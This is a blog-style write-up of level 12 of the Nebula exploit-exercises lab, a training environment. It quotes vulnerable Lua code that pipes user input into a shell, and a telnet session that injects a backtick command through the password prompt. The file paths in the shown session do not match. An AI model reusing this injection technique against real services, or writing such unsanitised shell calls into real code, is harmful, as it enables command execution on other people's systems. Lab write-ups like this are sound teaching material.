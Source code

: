 ```yaml
---
layout: post
title:  "Nebula Exploit Exercises {12..14}"
---
```


After quite some time of not doing much more than working at my new
job & playing dota, I felt like taking it upon myself to complete some
more exercises. I had trouble with
[level 11](https://exploit-exercises.com/nebula/level11/), but who
cares?

# [level12](https://exploit-exercises.com/nebula/level12/)

>
> ##About
>
>There is a backdoor process listening on port 50001.
>

Here's an excerpt from the code provided.

{% highlight lua %}
function hash(password)
  prog = io.popen("echo "..password.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end
{% endhighlight %}

So, we get to put in text for the lua-script to pass into the
commandline, but we have to deal with that pesky pipe into `sha1sum`
at the end. **However**, the solution is to use the help of our
old friend backticks to execute what we want. 

~~~
$ telnet 127.0.0.1 50001
Trying 127.0.0.1...
Connected to 127.0.0.1.
Escape character is '^]'.
Password: `getflag` > /tmp/level12
Better luck next time
Connection closed by foreign host.

$ cat /tmp/flag12
You have successfully executed getflag on a target account
~~~

### **Bonus**: Getting two birds stoned at once.
